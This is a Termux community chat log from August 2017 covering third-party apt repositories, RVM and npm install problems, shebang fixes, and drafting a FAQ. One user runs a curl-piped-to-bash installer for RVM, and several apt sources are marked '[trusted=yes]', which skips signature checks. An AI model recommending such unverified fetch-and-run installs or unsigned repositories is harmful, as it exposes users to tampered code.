2017-08-27 00:43:54	gitter	(Auxilus) @hattwj Glad to hear that! Make sure to try out metasploit-framework in termux!

2017-08-27 00:43:56	g093	in the DVR in your pocket

2017-08-27 00:44:41	g093	@Auxilus I added you repo to sources. Thanks.

2017-08-27 00:44:54	g093	you *your

2017-08-27 00:48:22	g093	$ play-audio 2001/The\ Blue\ Danube\ \(Vienna\ Philharnonic\ Orchestra\)-D6t318FgFdc.mk

2017-08-27 00:50:28	gitter	(Auxilus) g093, how you added my repo?

2017-08-27 00:50:47	gitter	(Auxilus) I didn't even knew my repo still exists... :p

2017-08-27 00:50:49	g093	source.list

2017-08-27 00:50:53	gitter	(Auxilus) Can you tell me string please?

2017-08-27 00:51:10	gitter	(Auxilus) I cant remember where i hosted my repo :p

2017-08-27 00:51:51	gitter	(Auxilus)  Can you? @g093?

2017-08-27 00:52:30	g093	$ cat ~/../usr/etc/apt/sources.list.d/pointless.list

2017-08-27 00:52:30	g093	deb [trusted=yes] https://its-pointless.github.io/files/ termux extras

2017-08-27 00:52:30	g093	$

2017-08-27 00:53:20	gitter	(Auxilus) Its `its-pointless`'s repo...

2017-08-27 00:53:32	g093	ok

2017-08-27 00:53:33	gitter	(Auxilus) Ohhh

2017-08-27 00:53:53	gitter	(Auxilus) I have file structure in my Github.io page!

2017-08-27 00:54:05	g093	$ cat ~/../usr/etc/apt/sources.list.d/auxilus.list

2017-08-27 00:54:05	g093	deb [trusted=yes] https://Auxilus.github.io/files/termuxpackages/ termux extras

2017-08-27 00:54:05	g093	$

2017-08-27 00:54:24	gitter	(Auxilus) Ty man...

2017-08-27 00:54:38	gitter	(Auxilus) I've been searching for it soo bad..

2017-08-27 00:55:36	g093	me too

2017-08-27 00:59:45	g093	...

2017-08-27 01:04:54	g093	$ play-audio eagles/Eagles\ -\ Hotel\ California\ \(Live.\ At\ The\ Capital\ Centre\,\ 1977\)-R80Q_FQGKj4.mkv

2017-08-27 01:06:49	g093	@Auxilus Do you know of any more Termux repos?

2017-08-27 01:08:03	gitter	(Auxilus) No, we only got 3 peeps with their external repo along with official termux repo..

2017-08-27 01:08:08	g093	@cocodevienne Has one...

2017-08-27 01:08:30	gitter	(Auxilus) @g093 you are welcome to create your own and share your packages with us.

2017-08-27 01:08:42	g093	distributed repos is what we want, correct?

2017-08-27 01:09:21	g093	https://sdrausty.github.io/myrepo/

2017-08-27 01:10:03	gitter	(Auxilus) g093

2017-08-27 01:10:10	g093	yes

2017-08-27 01:10:10	gitter	(Auxilus) You have my repo added?

2017-08-27 01:10:20	g093	yes

2017-08-27 01:10:29	g093	i fo

2017-08-27 01:10:35	g093	fo *do

2017-08-27 01:11:01	gitter	(Auxilus) Can you try installing `apt install extractor`?

2017-08-27 01:12:09	g093	$ apt install extractor

2017-08-27 01:12:09	g093	Reading package lists... Done

2017-08-27 01:12:09	g093	Building dependency tree

2017-08-27 01:12:09	g093	Reading state information... Done

2017-08-27 01:12:09	g093	E: Unable to locate package extractor

2017-08-27 01:12:56	gitter	(Auxilus) Hmm, looks like my directory stucture is wrong...

2017-08-27 01:12:56	g093	Ign:7 https://Auxilus.github.io/files/termuxpackages termux InRelease

2017-08-27 01:13:16	g093	Ign:9 https://Auxilus.github.io/files/termuxpackages termux Release

2017-08-27 01:13:36	gitter	(Auxilus) Ye, just saw

2017-08-27 01:13:36	gitter	(Auxilus) ..

2017-08-27 01:13:37	g093	it might not be struture 

2017-08-27 01:13:50	gitter	(Auxilus) Imma fix it ri8 away..

2017-08-27 01:13:55	g093	it might be github sserving

2017-08-27 01:14:25	g093	cat -n failed!

2017-08-27 01:14:35	g093	in Termux

2017-08-27 01:14:45	g093	and on GitHub

2017-08-27 01:14:57	g093	`cat -n`

2017-08-27 01:16:22	gitter	(Auxilus) Thats why...

2017-08-27 01:16:22	gitter	(Auxilus) Nah, i dont have any dir named `termuxpackages`

2017-08-27 01:18:47	g093	404

2017-08-27 01:19:53	gitter	(Auxilus) Ye.. I'm trying to fix it ri8 now..

2017-08-27 01:20:35	g093	https://github.com/Auxilus/Auxilus.github.io/blob/master/files/termuxpackages/dists/termux/Release

2017-08-27 01:21:18	g093	you might not have anything wrong @Auxilus

2017-08-27 01:23:16	g093	$ play-audio pink/theWall/Another\ Brick\ In\ The\ Wall\ \(Part\ 2\)-zz8frWcmthA.mkv

2017-08-27 01:25:10	gitter	(Auxilus) Leave it.. Im gonna start over... Creating entire repo again

2017-08-27 01:26:01	g093	how many repos do we have @Auxilus ?

2017-08-27 01:27:10	g093	$ play-audio pink/moon/The\ Great\ Gig\ In\ The\ Sky-mPGv8L3a_sY.mkv

2017-08-27 01:27:10	gitter	(Auxilus) Mine, cocos, its-pointless' and official

2017-08-27 01:27:30	g093	offical 

2017-08-27 01:27:35	g093	stable

2017-08-27 01:27:37	g093	?

2017-08-27 01:28:04	g093	wherez testing && experimental?

2017-08-27 01:28:04	gitter	(Auxilus) Yes

2017-08-27 01:28:48	gitter	(Auxilus) I'm not sure if we have that...

2017-08-27 01:29:10	g093	we must have something more than seg fault stable

2017-08-27 01:29:14	g093	we do

2017-08-27 01:29:21	g093	it is at

2017-08-27 01:30:00	g093	https://github.com/sdrausty/myrepo

2017-08-27 01:30:09	g093	should be

2017-08-27 01:30:15	g093	there

2017-08-27 01:31:15	g093	+

2017-08-27 01:31:31	g093	https://github.com/sdrausty/au

2017-08-27 01:32:05	gitter	(Hax4us) Can I install rvm

2017-08-27 01:32:10	gitter	(Hax4us) ?

2017-08-27 01:36:41	g093	@Hax4us Why do you wish to install RVM?

2017-08-27 01:37:05	g093	apt install *

2017-08-27 01:37:19	g093	enjoy!

2017-08-27 01:38:59	g093	my dvr

2017-08-27 01:39:19	g093	my smartphone

2017-08-27 01:40:16	g093	$ play-audio atmosphericNuclearTests/Weapon\ physicist\ declassifies\ rescued\ nuclear\ test\ films-pWpqGKUG5yY.webm

2017-08-27 01:40:24	g093	oops

2017-08-27 01:40:43	g093	sorry

2017-08-27 01:41:44	g093	$ play-audio 2001/2001\ Space\ Odyssey\ -\ Blue\ Danube-muPNlnm_i44.mkv

2017-08-27 01:43:28	g093	the other ones r @ https://m.youtube.com/results?q=atmospheric%20nuclear%20test&sm=1

2017-08-27 01:44:19	g093	& well they were at that site:-[

2017-08-27 01:45:31	g093	$ play-audio chopin/Chopin\ -\ Complete\ Mazurkas\ \(Full\ Album\)-H5D46aHhRDM.mkv

2017-08-27 01:46:27	gitter	(Hax4us) @g093 what ? apt install ?

2017-08-27 01:46:32	gitter	(Hax4us) I did this

2017-08-27 01:46:45	gitter	(Hax4us) curl -L https://get.rvm.io | bash -s stable -ruby

2017-08-27 01:46:51	g093	`apt install *`

2017-08-27 01:47:14	g093	whoo

2017-08-27 01:48:49	g093	dvr in der tache

2017-08-27 01:49:52	gitter	(Hax4us) apt install * is not working

2017-08-27 01:49:58	gitter	(Hax4us) 😑

2017-08-27 01:50:21	g093	? @Hax4us

2017-08-27 01:50:40	g093	output please:

2017-08-27 01:51:46	g093	? *\*?

2017-08-27 01:52:16	gitter	(Hax4us) unable to locate package

2017-08-27 01:52:51	g093	hmm

2017-08-27 01:53:59	g093	you should'ave gotten conflicts

2017-08-27 01:54:55	g093	them dimlly select..

2017-08-27 01:54:57	g093	.

2017-08-27 01:55:22	g093	dimlly *simply

2017-08-27 01:55:44	g093	them *then

2017-08-27 01:56:25	g093	then simply select which packages you want

2017-08-27 01:57:07	gitter	(Hax4us) Bro...i think there is no.any rvm package

2017-08-27 01:57:11	g093	`apt install *` works with knowhow

2017-08-27 01:57:24	gitter	(Hax4us) I can't apt install rvm

2017-08-27 01:57:59	g093	Done

2017-08-27 01:57:59	g093	E: Unable to locate package rvm

2017-08-27 01:58:01	gitter	(Auxilus) There is no `rvm` package in repo..

2017-08-27 01:58:20	gitter	(Auxilus) You have to build it from source

2017-08-27 01:58:23	gitter	(Hax4us) Bro I know that

2017-08-27 01:58:33	gitter	(Hax4us) So that's why i m asking

2017-08-27 01:58:39	gitter	(Hax4us) Na

2017-08-27 01:58:57	g093	no i have not built rvm from source

2017-08-27 01:59:18	gitter	(TheReturningVoid) Any of you have experience with using `npm` on termux?

2017-08-27 01:59:25	gitter	(Auxilus) g093: you did apt install rvm?

2017-08-27 01:59:42	gitter	(Hax4us) @TheReturningVoid  Yes ...little bit

2017-08-27 01:59:45	g093	@Auxilus tried

2017-08-27 01:59:57	gitter	(TheReturningVoid) Have you been able to install packages globally?

2017-08-27 02:00:00	gitter	(Auxilus) I just used npm once to install http-server

2017-08-27 02:00:12	gitter	(Auxilus) Yes i was @TheReturningVoid

2017-08-27 02:00:13	gitter	(Hax4us) @TheReturningVoid no

2017-08-27 02:00:30	gitter	(TheReturningVoid) Huh, I'm just getting EACCESSes

2017-08-27 02:00:30	gitter	(Hax4us) I never tried

2017-08-27 02:00:53	live_the_dreams	yeah that is a known issue

2017-08-27 02:01:05	g093	@T* termux.net works fine...

2017-08-27 02:01:12	gitter	(TheReturningVoid) Is there a workaround for it?

2017-08-27 02:01:48	live_the_dreams	https://github.com/termux/termux-packages/issues/1192

2017-08-27 02:01:50	live_the_dreams	yes

2017-08-27 02:03:51	gitter	(TheReturningVoid) Tried that, it's an ENOENT now

2017-08-27 02:05:38	gitter	(Hax4us) npm install express (locally)😑I think with -G u can

2017-08-27 02:06:35	gitter	(TheReturningVoid) I need to install globally tho

2017-08-27 02:06:42	gitter	(TheReturningVoid) Trying to do @angular/cli

2017-08-27 02:07:14	gitter	(sdrausty) Too complicated live_the_dreams let's try simple

2017-08-27 02:08:38	gitter	(Hax4us) npm install -g express(whatever)

2017-08-27 02:08:44	gitter	(Hax4us) It is working for me

2017-08-27 02:08:57	gitter	(sdrausty) Like https://github.com/termux/termux-packages/issues/1176 live_the_dreams

2017-08-27 02:09:21	gitter	(TheReturningVoid) `node` or `node-current`?

2017-08-27 02:09:46	live_the_dreams	or install yarn

2017-08-27 02:12:04	gitter	(Hax4us) Node

2017-08-27 02:13:31	gitter	(sdrausty) @Hax4us & live_the_dreams i 🌟 preferencji la DVR

2017-08-27 02:14:05	gitter	(sdrausty) In der Tache

2017-08-27 02:14:47	gitter	(TheReturningVoid) Tried yarn, gives me /bin/sh not found

2017-08-27 02:15:24	gitter	(suryapoo) Guys.. This is new..

2017-08-27 02:15:27	gitter	(suryapoo) Welcome to Termux!

2017-08-27 02:15:27	gitter	(suryapoo)

2017-08-27 02:15:27	gitter	(suryapoo) Online help:     https://termux.com/help

2017-08-27 02:15:27	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59a2637eee5c9a4c5f036290]

2017-08-27 02:15:58	gitter	(sdrausty) What'bout space on device?

2017-08-27 02:16:20	gitter	(sdrausty) https://github.com/termux/termux-packages/issues/1176

2017-08-27 02:17:12	gitter	(Auxilus) I got 5gb used by termux

2017-08-27 02:17:47	gitter	(sdrausty) @suryapoo so what's new?

2017-08-27 02:18:22	gitter	(sdrausty) 126g and counting @Auxilus

2017-08-27 02:18:45	gitter	(Auxilus) 😲😬😂keep it up!

2017-08-27 02:19:03	gitter	(Auxilus) Well there is ss on that issue

2017-08-27 02:19:24	gitter	(Auxilus) You were trying to create something like termuxfs?

2017-08-27 02:19:34	gitter	(sdrausty) Termux 💪 wants stability.

2017-08-27 02:19:50	gitter	(sdrausty) Where'z seg f*

2017-08-27 02:20:33	gitter	(Auxilus) How do I create termuxfs, whuch can be run with proot (or chroot, idk)

2017-08-27 02:20:35	gitter	(Auxilus) ?

2017-08-27 02:20:39	gitter	(sdrausty) I should pub

2017-08-27 02:20:48	gitter	(sdrausty) MCM

2017-08-27 02:21:19	gitter	(Auxilus) I dont get it, MCM?

2017-08-27 02:22:27	gitter	(sdrausty) It is like https://m.youtube.com/watch?v=Bj_eZ5dlBkI

2017-08-27 02:23:50	gitter	(Auxilus) You are on southpole 😵

2017-08-27 02:24:16	gitter	(sdrausty) It is nice timelapse footage from the frontier @Auxilus

2017-08-27 02:24:26	gitter	(suryapoo) @sdrausty ..I typed python2 -v ..but its showing all the imports ?

2017-08-27 02:24:40	gitter	(Auxilus) Nice!

2017-08-27 02:24:53	gitter	(Auxilus) You are adventurer?

2017-08-27 02:25:18	gitter	(sdrausty) @suryapoo i don't like python & i 🌟 love it too

2017-08-27 02:25:37	gitter	(sdrausty) @Auxilus top10 FAQ

2017-08-27 02:25:46	gitter	(sdrausty) LET'S DO IT

2017-08-27 02:25:46	gitter	(suryapoo) @sdrausty ..which language do you like the most? Don't tell me its C++

2017-08-27 02:26:02	gitter	(sdrausty) @suryapoo rpg

2017-08-27 02:26:12	gitter	(sdrausty) used to

2017-08-27 02:26:39	gitter	(suryapoo) What's that ?

2017-08-27 02:27:01	gitter	(Auxilus) @sdrausty where do we start!?

2017-08-27 02:27:27	gitter	(sdrausty) https://en.m.wikipedia.org/wiki/IBM_RPG

2017-08-27 02:29:10	gitter	(sdrausty) Can we proceed with RPG in Termux, please?

2017-08-27 02:29:51	gitter	(sdrausty) In my 🐕 pocket.

2017-08-27 02:30:14	gitter	(Auxilus) Where to use it?

2017-08-27 02:30:25	gitter	(Auxilus) Sry never heard of that language before...

2017-08-27 02:30:45	gitter	(sdrausty) Mainframe and puchcards @Auxilus

2017-08-27 02:31:09	gitter	(Auxilus) Mainframes? That sounds a little oldie..

2017-08-27 02:31:54	gitter	(sdrausty) It's a very simple language to comprehend.

2017-08-27 02:32:43	gitter	(Auxilus) What about termuxfs i talked about? Can we build it?

2017-08-27 02:32:45	gitter	(sdrausty) It's numerically inclined. That's one of the reasons it's cool.

2017-08-27 02:33:56	gitter	(sdrausty) @Auxilus years ago mainframes. Buildings!

2017-08-27 02:37:43	gitter	(sdrausty) RPG comprehends 1+1=2

2017-08-27 02:39:45	gitter	(sdrausty) pi=8 the lazy eight &@such

2017-08-27 02:40:40	gitter	(Auxilus) It gives pi=8!?

2017-08-27 02:41:36	gitter	(sdrausty) ≠

2017-08-27 02:42:25	gitter	(sdrausty) pi=8 *pi ≠ 8

2017-08-27 02:42:34	gitter	(TheReturningVoid) Is there a reason tab complete works in bash but not zsh?

2017-08-27 02:43:27	gitter	(sdrausty) RPG should understand

2017-08-27 02:43:34	gitter	(sdrausty) It should

2017-08-27 02:44:16	gitter	(sdrausty) 3.14*

2017-08-27 02:46:10	gitter	(sdrausty) @TheReturningVoid use `bash` 👍💪🙂

2017-08-27 02:46:23	gitter	(TheReturningVoid) Guess that works :P

2017-08-27 02:46:53	gitter	(sdrausty) It does.

2017-08-27 02:47:10	gitter	(sdrausty) @present

2017-08-27 02:50:07	gitter	(Auxilus) You dont use fish?

2017-08-27 02:51:23	gitter	(sdrausty) The computer language RPG is not related to role playing games, as far as I know.

2017-08-27 02:52:10	gitter	(Auxilus) Anyone worked with BASIC?

2017-08-27 02:52:15	gitter	(sdrausty) We rpg'd in class, we did!

2017-08-27 02:55:06	gitter	(sdrausty) https://plus.google.com/communities/101692629528551299417

2017-08-27 02:55:46	gitter	(sdrausty) Why are postings not being published at g+ ?

2017-08-27 02:56:47	gitter	(sdrausty) https://plus.google.com/109614420080028230010/posts/Ggfmkxiv1o1

2017-08-27 02:57:08	gitter	(sdrausty) like

2017-08-27 02:58:06	gitter	(sdrausty) https://github.com/sdrausty/au

2017-08-27 02:58:11	gitter	(sdrausty) or

2017-08-27 02:59:00	gitter	(sdrausty) https://github.com/sdrausty/myrepo

2017-08-27 02:59:07	gitter	(sdrausty) @g+ ?

2017-08-27 03:00:07	gitter	(sdrausty) OR

2017-08-27 03:00:37	gitter	(sdrausty) https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice

2017-08-27 03:00:54	gitter	(sdrausty) Disappearing from g+. wtf

2017-08-27 03:02:40	gitter	(Hax4us) main: /data/data/com.termux/files/home/rvm-exec-test.ondcsz: /bin/sh: bad interpreter: No such file or directory`

2017-08-27 03:02:42	gitter	(sdrausty) @sunny256 🎏 fish?

2017-08-27 03:02:47	gitter	(Hax4us) Any idea

2017-08-27 03:03:06	gitter	(TheReturningVoid) Do `echo $PREFIX`

2017-08-27 03:03:24	gitter	(sdrausty) @Auxilus fish?

2017-08-27 03:03:31	gitter	(Auxilus) @Hax4us termux-fix-shebang on your script

2017-08-27 03:03:38	gitter	(TheReturningVoid) Oh, that works?

2017-08-27 03:03:42	gitter	(Auxilus) @sdrausty its a shell like bash and zsh

2017-08-27 03:03:43	gitter	(TheReturningVoid) Now I know

2017-08-27 03:03:55	gitter	(sdrausty) Iknos

2017-08-27 03:04:06	gitter	(Hax4us) @TheReturningVoid output is /data/data/com.termux/files/usr

2017-08-27 03:04:18	gitter	(Hax4us) @Auxilus not working fix shebang

2017-08-27 03:04:19	gitter	(TheReturningVoid) Nevermind me, use `termux-fix-shebang`

2017-08-27 03:04:26	gitter	(TheReturningVoid) that should do it amtomagically

2017-08-27 03:04:42	gitter	(sdrausty) Wherez stable, not seg fault?

2017-08-27 03:04:56	gitter	(sdrausty) debian.org ?

2017-08-27 03:09:42	gitter	(sdrausty) We should have branches. Like stable, testing and experimental, for instance

2017-08-27 03:10:26	gitter	(sdrausty) Not stable and watch seg fault.

2017-08-27 03:11:39	gitter	(sdrausty) Maybe we can have something better?

2017-08-27 03:11:44	gitter	(Auxilus) We dont have that much dev activity I think..

2017-08-27 03:12:20	gitter	(sdrausty) I have put up a repo to assist.

2017-08-27 03:12:51	gitter	(Auxilus) Is your repo up?

2017-08-27 03:13:04	gitter	(sdrausty) Can you please help us to get it stable m

2017-08-27 03:13:18	gitter	(sdrausty) m *?

2017-08-27 03:13:40	gitter	(suryapoo) Guys,termux supports pygame?

2017-08-27 03:13:57	gitter	(TheReturningVoid) I don't think so

2017-08-27 03:14:04	gitter	(TheReturningVoid) How would it open a window>

2017-08-27 03:14:05	gitter	(sdrausty) https://sdrausty.github.io/myrepo/

2017-08-27 03:14:09	gitter	(Auxilus) My repo is itself broken

2017-08-27 03:14:18	gitter	(Auxilus) I need help to fix it...

2017-08-27 03:14:41	gitter	(Auxilus) Maybe I got wrong dir stucture..

2017-08-27 03:14:49	gitter	(sdrausty) This repo is only for regression.

2017-08-27 03:15:47	gitter	(sdrausty) Hopefully to alleviate seg faults.

2017-08-27 03:15:58	gitter	(sdrausty) Quickly

2017-08-27 03:20:03	gitter	(Auxilus) What is aapt?

2017-08-27 03:21:57	gitter	(sdrausty) aapt Android Asset Packaging Tool

2017-08-27 03:22:32	gitter	(sdrausty) More at

2017-08-27 03:23:01	gitter	(sdrausty) https://sdrausty.github.io/buildAPKs/ @Auxilus

2017-08-27 03:24:04	gitter	(sdrausty) Let's begin the top 10 FAQ @Auxilus

2017-08-27 03:25:00	gitter	(sdrausty) What is the most often asked question is not the question.

2017-08-27 03:25:43	gitter	(sdrausty) What are the top 10 questions regarding Termux 💪🙂?

2017-08-27 03:25:48	gitter	(Hax4us) Aapt is must for building apks

2017-08-27 03:26:05	gitter	(Hax4us) Anyone hav rvm?

2017-08-27 03:26:06	gitter	(sdrausty) Is the question.

2017-08-27 03:27:34	gitter	(sdrausty) cd && git clone https://github.com/sdrausty/buildAPKs

2017-08-27 03:27:34	gitter	(sdrausty) ./buildAPKs/scripts/build/buildMyFirstAPK.sh

2017-08-27 03:27:47	gitter	(sdrausty) Please share@

2017-08-27 03:28:56	gitter	(sdrausty) https://github.com/sdrausty/buildAPKs/issues

2017-08-27 03:30:24	gitter	(sdrausty) ```

2017-08-27 03:30:24	gitter	(sdrausty)

2017-08-27 03:30:24	gitter	(sdrausty) ```

2017-08-27 03:30:29	gitter	(sdrausty) cd && git clone https://github.com/sdrausty/buildAPKs

2017-08-27 03:30:29	gitter	(sdrausty) ./buildAPKs/scripts/build/buildMyFirstAPK.sh

2017-08-27 03:30:34	gitter	(sdrausty) ```

2017-08-27 03:30:34	gitter	(sdrausty)

2017-08-27 03:30:34	gitter	(sdrausty) ```

2017-08-27 03:41:02	gitter	(Auxilus) @sdrausty Q1: Is Termux a complete linux environment?

2017-08-27 03:41:46	gitter	(Auxilus) Q2: Does termux support gui?

2017-08-27 03:42:16	gitter	(Auxilus) Q3: How do I create my own package for termux?

2017-08-27 03:43:59	gitter	(Auxilus) Q4: Can I do hacking with Termux?

2017-08-27 03:46:31	gitter	(sdrausty) Q1 Working on it.

2017-08-27 03:49:37	gitter	(sdrausty)

2017-08-27 03:49:38	gitter	(sdrausty) Q2 Yes, please see https://sdrausty.github.io/buildAPKs/ for GUIs as many as you desire.

2017-08-27 03:50:12	gitter	(sdrausty) Q3 https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice

2017-08-27 03:50:47	gitter	(sdrausty) Q4 That's what you are doing.

2017-08-27 03:53:34	gitter	(Auxilus) I think we need more elab

2017-08-27 03:54:28	gitter	(Auxilus) @sdrausty Q3 is about packages not apks...

2017-08-27 03:54:50	gitter	(Auxilus) @sdrausty You self promoting bro? 😂

2017-08-27 03:56:32	gitter	(sdrausty) You @Auxilus create your GUI throug

2017-08-27 03:56:50	gitter	(sdrausty) Through Termux 💪

2017-08-27 03:56:59	gitter	(Auxilus) Possible?

2017-08-27 03:57:09	w1n5t0n	Hey yall

2017-08-27 03:57:21	w1n5t0n	How do i make a new session in the app?

2017-08-27 03:57:25	gitter	(sdrausty) Get Termux 💪, create GUI

2017-08-27 03:57:32	gitter	(sdrausty) SIMPLE

2017-08-27 03:57:35	gitter	(Auxilus) Should I create the faq section on main wiki?

2017-08-27 03:58:14	gitter	(sdrausty) w1n5t0nv wtf elaborate please

2017-08-27 03:58:22	gitter	(Auxilus) w1n5t0n:open drawer from left, there is option in bottom

2017-08-27 03:58:54	gitter	(sdrausty) @Auxilus what are the top ten questions?

2017-08-27 03:59:25	gitter	(Auxilus) I got you 4 already.. Looking for more..

2017-08-27 03:59:33	gitter	(Auxilus) Ill ask on whatsapp group

2017-08-27 03:59:42	gitter	(sdrausty) No

2017-08-27 03:59:43	gitter	(Auxilus) And choose from 'em

2017-08-27 03:59:59	gitter	(sdrausty) I am asking you

2017-08-27 04:00:30	gitter	(sdrausty) What is the most important FAQ?

2017-08-27 04:00:45	gitter	(sdrausty) @Auxilus ?

2017-08-27 04:00:49	gitter	(Auxilus) Q1

2017-08-27 04:01:01	gitter	(Auxilus) Is Termux complete linux env

2017-08-27 04:01:17	gitter	(sdrausty) Is Termux a complete linux environment?

2017-08-27 04:01:49	gitter	(Auxilus) Ye

2017-08-27 04:01:55	gitter	(sdrausty) Yes. We"re working on it.

2017-08-27 04:02:02	gitter	(Auxilus) https://wiki.termux.com/wiki/Main_Page#FAQ

2017-08-27 04:02:23	gitter	(sdrausty) Introduction

2017-08-27 04:03:06	gitter	(Auxilus) I think I'll edit the section after we get 10 faqs and answers

2017-08-27 04:03:34	gitter	(sdrausty) What's #2?

2017-08-27 04:04:03	gitter	(Auxilus) How do I create my own package for termux?

2017-08-27 04:04:06	w1n5t0n	Auxilius:thank you

2017-08-27 04:04:18	gitter	(Auxilus) w1n5t0n:np

2017-08-27 04:04:35	gitter	(sdrausty) @Auxilus That's a good one.

2017-08-27 04:04:45	gitter	(sdrausty) Q3?

2017-08-27 04:05:06	gitter	(Auxilus) Add question about hacking in termux..

2017-08-27 04:05:24	gitter	(Auxilus) Thats why peeps are installing termux ( majority of 'em)

2017-08-27 04:05:27	gitter	(sdrausty) @Auxilus ? Q3?

2017-08-27 04:05:39	gitter	(Auxilus) Yeah

2017-08-27 04:05:51	gitter	(Auxilus) Q3 : Can I do Hacking with Termux

2017-08-27 04:05:57	gitter	(sdrausty) Storagem

2017-08-27 04:06:20	gitter	(sdrausty) That's#0

2017-08-27 04:06:26	gitter	(Auxilus) Put caution in answer, something like we aren't responsible for damage blah vlah

2017-08-27 04:06:55	gitter	(sdrausty) Good one put caution...

2017-08-27 04:07:34	gitter	(sdrausty) We're still at Q3 or Q4.

2017-08-27 04:08:22	gitter	(sdrausty) If it does something unexpected it's not our fault.

2017-08-27 04:09:37	gitter	(Auxilus) Ye exactly

2017-08-27 04:09:51	gitter	(Auxilus) I gotta go, ill be bk after some time

2017-08-27 04:09:53	gitter	(sdrausty) Well 👍, we have there. Thanks. This is a strong 🌟 start.

2017-08-27 04:10:08	gitter	(Auxilus) Sure it is...

2017-08-27 04:10:09	gitter	(sdrausty) there *three

2017-08-27 04:15:40	gitter	(hattwj) Does anyone know why the rbtrace gem would fail

2017-08-27 04:16:01	g093	Q[1-3]*

2017-08-27 04:21:24	gitter	(sdrausty) Maybe like: you have Termux 💪, you are already hacking your Android device; If you did not know.

2017-08-27 04:21:52	gitter	(sdrausty) For Q0

2017-08-27 04:22:08	gitter	(sdrausty) FAQ

2017-08-27 04:23:13	gitter	(sdrausty) We are not responsible. Something along this line?

2017-08-27 04:24:28	g093	Q[init]*

2017-08-27 04:25:40	g093	dvr in mi fon 

2017-08-27 04:25:46	g093	wow

2017-08-27 04:32:50	g093	https://github.com/sdrausty/au

2017-08-27 04:33:30	g093	$ play-audio eagles/Eagles\ -\ Hotel\ California\ \(Live.\ At\ The\ Capital\ Centre\,\ 1977\)-R80Q_FQGKj4.mkv

2017-08-27 04:34:52	g093	$ play-audio 'Carly Simon - You'\''re So Vain (with lyrics)-b6UAYGxiRwU.mkv'

2017-08-27 04:36:17	g093	dvr DVT in dr tache

2017-08-27 04:39:28	g093	$ play-audio 'NEW Trance 2016 Mix_Electro MUSIC REMIX 2016_TECHNO trance music 2016-FViEPdb3_98.mkv'

2017-08-27 04:42:17	g093	stabitity as in debian.org stablle? testing¿ experimental...

2017-08-27 04:47:39	g093	They cannot listen; Can they listen? If they can listen, can they hear? Understandm

2017-08-27 04:48:45	g093	https://github.com/sdrausty/buildAPKs

2017-08-27 04:49:39	g093	Understandm *Understand?

2017-08-27 04:50:22	gitter	(Auxilus) @sdrausty where are you writing your answers, can you put it on your git? Maybe in txt, so that I can modify it?

2017-08-27 04:50:33	gitter	(Auxilus) You got any questions?

2017-08-27 04:50:54	gitter	(Auxilus) Btw yeah, we'll put hacking question as Q0

2017-08-27 04:51:16	gitter	(sdrausty) It's at

2017-08-27 04:51:43	gitter	(sdrausty) Termux IRC Chat Log

2017-08-27 04:51:55	gitter	(Auxilus) 😯

2017-08-27 04:52:09	gitter	(sdrausty) https://sdrausty.github.io/logs/ircFreenodeTermuxWeechatlog

2017-08-27 04:52:44	gitter	(Auxilus) Damn son! Its so big!

2017-08-27 04:53:13	gitter	(sdrausty) Bunch of stuff about Termux 💪🙂 Sweet and us.

2017-08-27 04:53:26	gitter	(Auxilus) You got any questions?

2017-08-27 04:53:43	gitter	(Auxilus) I can ask on whatsapp group if you want?

2017-08-27 04:54:04	gitter	(sdrausty) Q[4_9] FAQ ?

2017-08-27 04:54:17	gitter	(Auxilus) Yeah...

2017-08-27 04:54:37	gitter	(sdrausty) We have Q[0-3]*

2017-08-27 04:54:45	gitter	(Auxilus) I mean I'll just ask for something like 'what are your questions about termux'

2017-08-27 04:56:21	gitter	(sdrausty) Yes. But what does that question yeild? Harvest?

2017-08-27 04:57:10	gitter	(sdrausty) I like Q[0-3]

2017-08-27 04:57:30	gitter	(sdrausty) Thanks. The ones we discussed.

2017-08-27 04:58:05	gitter	(sdrausty) We are still short of 10.

2017-08-27 04:59:06	gitter	(sdrausty) @Auxilus that's a good recursive question, btw.

2017-08-27 05:04:47	gitter	(sdrausty) @Auxilus nr4 so many questions, skip to 5?

2017-08-27 05:05:55	gitter	(sdrausty) Or endulge  in Q4?

2017-08-27 05:07:59	g093	$ play-audio Ground\ Control\ to\ Major\ Tom-AFks9A9TCF0.mkv

2017-08-27 05:09:06	g093	1

2017-08-27 06:11:10	gitter	(Auxilus) @sdrausty we will go for Q1 to Q10

2017-08-27 06:11:14	gitter	(Auxilus) 11 questions

2017-08-27 06:12:01	gitter	(Hax4us) alternative of systemctl in termux?

2017-08-27 06:12:10	gitter	(Hax4us) Anyone knows ?

2017-08-27 06:12:40	gitter	(Hax4us) Is there any command like service or systemctl in termux

2017-08-27 06:13:00	gitter	(Auxilus) No

2017-08-27 06:13:12	gitter	(Auxilus) We dont have that..

2017-08-27 06:13:22	gitter	(Auxilus) Which process you want to start?

2017-08-27 06:13:37	gitter	(Hax4us) iptables

2017-08-27 06:14:42	gitter	(Hax4us) Anyone ?

2017-08-27 06:14:50	gitter	(Hax4us) Have idea about that

2017-08-27 06:16:33	gitter	(Auxilus) To start `ufw enable`

2017-08-27 06:16:47	gitter	(Auxilus) To stop `ufw disable`

2017-08-27 06:17:16	gitter	(Auxilus) To restart `ufw reload`

2017-08-27 06:17:22	gitter	(Auxilus) See if it helps...

2017-08-27 06:17:27	gitter	(Hax4us) What to start?? This is for iptables

2017-08-27 06:17:47	gitter	(Hax4us) ufw enable iptables

2017-08-27 06:17:56	gitter	(Hax4us) Or only ufw enable

2017-08-27 06:18:05	gitter	(Hax4us) ?

2017-08-27 06:18:46	gitter	(Auxilus) Only ufw enable

2017-08-27 06:18:50	gitter	(Hax4us) There is no any ufw command

2017-08-27 06:19:00	gitter	(Hax4us) Termux says...no command

2017-08-27 06:20:42	gitter	(Auxilus) We dont have ufw package..

2017-08-27 06:22:04	gitter	(Hax4us) Yes..😑kk I m trying ....well...if anyone have any sol or idea...plz tell

2017-08-27 13:26:32	gitter	(hattwj) Thought it might be related to the ruby version or clang, but using the itspointless gcc-6 and rvm ruby 2.3.3 doesn't work either

2017-08-27 20:28:43	waynecolvin	msgget is a unix system call http://tldp.org/LDP/lpg/node34.html and also available in  Perl 5

2017-08-27 20:31:04	waynecolvin	oh you said ruby... it compiled but didn't link or was is missing a header?

2017-08-27 20:41:37	waynecolvin	i think ruby expects a stdlib c function, but androjd just has system function...

2017-08-27 20:42:32	waynecolvin	maybe you could write a little wrapper function and link it directly

